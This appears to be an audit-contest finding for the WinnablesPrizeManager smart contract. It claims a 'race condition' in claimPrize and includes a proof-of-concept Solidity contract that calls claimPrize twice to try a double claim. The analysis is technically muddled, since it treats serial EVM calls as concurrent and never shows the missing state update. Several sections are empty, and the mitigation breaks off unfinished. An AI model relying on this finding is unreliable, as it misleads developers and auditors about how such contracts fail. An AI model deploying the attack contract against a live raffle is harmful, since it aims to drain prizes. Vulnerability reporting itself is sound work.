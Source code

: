 Sour Denim Alpaca

High

# Race Condition in Prize Claiming at WinnablesPrizeManager contract

### Summary

Line: https://github.com/sherlock-audit/2024-08-winnables-raffles/blob/main/public-contracts/contracts/WinnablesPrizeManager.sol#L105

 The claimPrize function does not lock the prize before transferring it, which could potentially allow a race condition where multiple transactions try to claim the same prize.

### Root Cause

Race condition

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

_No response_

### Impact

 If exploited, this could lead to multiple claims of the same prize, resulting in unauthorized distribution of funds or assets.

### PoC

Testing Contract

```solidity

pragma solidity 0.8.24;

import "./WinnablesPrizeManager.sol";

contract RaceConditionTester {
    WinnablesPrizeManager public target;
    uint256 public raffleId;

    constructor(WinnablesPrizeManager _target, uint256 _raffleId) {
        target = _target;
        raffleId = _raffleId;
    }

    // Simulate multiple users claiming the prize at the same time
    function simulateRaceCondition() external {
        // Call claimPrize in a loop to simulate concurrent transactions
        // In a real attack, this would be done by multiple users or bots
        target.claimPrize(raffleId);
        target.claimPrize(raffleId);
    }

    // Fallback function to receive ETH
    receive() external payable {}
}

```
 Testing the Race Condition
Deploy the WinnablesPrizeManager contract.
Fund the WinnablesPrizeManager contract with ETH using depositETH.
Set a raffle using setRaffle with an ETH prize.
Deploy the RaceConditionTester contract with the address of the WinnablesPrizeManager contract and the raffleId.
Call the simulateRaceCondition function on the RaceConditionTester contract.

### Mitigation

To prevent race conditions, consider implementing a locking mechanism to ensure that only one transaction can access the critical section (the prize claiming logic) at a time: